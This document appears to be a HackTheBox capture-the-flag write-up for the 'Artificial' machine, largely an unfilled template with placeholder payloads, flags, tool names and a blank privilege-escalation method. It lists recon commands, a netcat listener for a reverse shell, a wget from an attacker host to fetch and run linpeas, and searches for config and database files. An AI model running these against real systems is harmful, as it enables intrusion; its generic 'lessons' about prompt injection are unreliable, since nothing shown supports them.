



# 🤖 HackTheBox - Artificial


## 📋 Machine Information

| **Attribute** | **Details** |
|---------------|-------------|
| **Machine Name** | Artificial |
| **OS** |  |
| **Difficulty** |  |
| **Machine Rating** | ⭐⭐⭐⭐⭐ 4.2/5 |
| **Release Date** | 📅 June 21, 2025 |
| **Created by** | 👤 [FisMatHack](https://app.hackthebox.com/profile/1076236) |
| **User Owns** | 👥 7,317 |
| **System Owns** | 🔑 6,002 |

## 🎯 Overview

Artificial is an Easy-rated Linux machine on HackTheBox that leverages **artificial intelligence** themes and technologies. This machine appears to be newly released (June 2025) and has gained significant attention from the community with thousands of successful solves.

> **💡 Key Learning Points:**
> - AI/ML related vulnerabilities
> - Linux privilege escalation
> - Web application security
> - Service enumeration and exploitation


## 🔍 Reconnaissance

### Initial Nmap Scan

Let's start with a basic port scan to identify open services:

```bash
nmap -sC -sV -oA nmap/initial 10.10.11.x
```


**Results:**
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.x (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

### Full Port Scan

Let's perform a comprehensive scan to ensure we don't miss any services:

```bash
nmap -p- --min-rate=1000 -T4 10.10.11.x
```


### Service Enumeration

#### HTTP Service (Port 80)

Let's explore the web application:


**Directory Enumeration:**
```bash
gobuster dir -u http://10.10.11.x -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


**Technology Stack:**
```bash
whatweb http://10.10.11.x
```


**Wappalyzer Analysis:**


## 🚪 Initial Access

### Vulnerability Discovery

After exploring the web application, we discovered:


**Key Findings:**
- 🔍 Interesting endpoint found: `/api/v1/`
- 🤖 AI model interaction interface
- 🔓 Potential input validation issues

### Exploitation

**Step 1: Analyzing the AI Interface**


**Step 2: Crafting the Payload**


```bash
# Example payload
curl -X POST http://10.10.11.x/api/v1/predict \
  -H "Content-Type: application/json" \
  -d '{"input": "malicious_payload_here"}'
```

**Step 3: Getting Shell Access**


```bash
# Reverse shell payload
nc -lvnp 4444
```


### Initial Shell

```bash
whoami
id
pwd
ls -la
```


## 👤 User Flag

### User Enumeration

Let's explore the system and find user accounts:

```bash
cat /etc/passwd | grep -E "sh$|bash$"
ls /home/
```


### Finding User Credentials

**Exploring Configuration Files:**


**Database Exploration:**

```bash
find / -name "*.db" 2>/dev/null
find / -name "config*" 2>/dev/null
```


### Lateral Movement

**Accessing User Account:**


### 🏆 User Flag

```bash
cat /home/username/user.txt
```


**User Flag:** `HTB{user_flag_here}`

## 🔝 Privilege Escalation

### System Enumeration

**LinEnum/LinPEAS Execution:**

```bash
# Transfer enumeration script
wget http://your-ip:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```


### Privilege Escalation Vector Discovery

**Sudo Permissions:**
```bash
sudo -l
```


**SUID Binaries:**
```bash
find / -perm -4000 2>/dev/null
```


**Interesting Processes:**
```bash
ps aux | grep root
```


### Exploitation

**Method Used:** [Describe the privilege escalation method]


**Payload Execution:**


### Root Access Achieved

```bash
whoami
id
```


## 🏁 Root Flag

### Root Directory Exploration

```bash
cd /root
ls -la
```


### 🏆 Root Flag

```bash
cat /root/root.txt
```



**Root Flag:** `HTB{root_flag_here}`

### Post-Exploitation

**System Information:**
```bash
uname -a
cat /etc/os-release
```


## 🎓 Lessons Learned

### 🔍 Key Takeaways

1. **AI/ML Security Considerations**
   - AI models can be vulnerable to prompt injection attacks
   - Input validation is crucial in AI-powered applications
   - Model responses can leak sensitive information

2. **Web Application Security**
   - Always enumerate all endpoints and API routes
   - Check for hidden functionality in AI interfaces
   - Validate all user inputs properly

3. **Linux Privilege Escalation**
   - Regular enumeration is key to finding privilege escalation vectors
   - Check for misconfigured services and permissions
   - Always verify sudo permissions and SUID binaries

### 🛡️ Defensive Measures

- Implement proper input validation for AI models
- Use principle of least privilege
- Regular security audits of AI applications
- Monitor for unusual API usage patterns


## 🔧 Tools Used

| **Category** | **Tools** | **Purpose** |
|--------------|-----------|-------------|
| **Reconnaissance** |  | Port scanning and service enumeration |
| |  | Directory and file enumeration |
| |  | Web technology identification |
| **Exploitation** |  | Web application testing |
| |  | HTTP requests and API testing |
| |  | Reverse shell listener |
| **Privilege Escalation** |  | Linux enumeration script |
| |  | Unix binary exploitation reference |



## 📊 Attack Chain Summary




## 📝 Additional Screenshots

### Detailed Analysis Screenshots


### Alternative Methods


### Cleanup and Persistence


### Final System State


---

## 📚 References

- [HackTheBox Machine Page](https://app.hackthebox.com/machines/Artificial)
- [OWASP AI Security and Privacy Guide](https://owasp.org/www-project-ai-security-and-privacy-guide/)
- [GTFOBins](https://gtfobins.github.io/)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)


---

> **⚠️ Disclaimer:** This writeup is for educational purposes only. Always ensure you have proper authorization before testing security tools and techniques. The author is not responsible for any misuse of the information provided.

**🎯 Machine Completed:** `$(date)`
**⏱️ Total Time:** `X hours Y minutes`
**🏆 Flags Captured:** `2/2`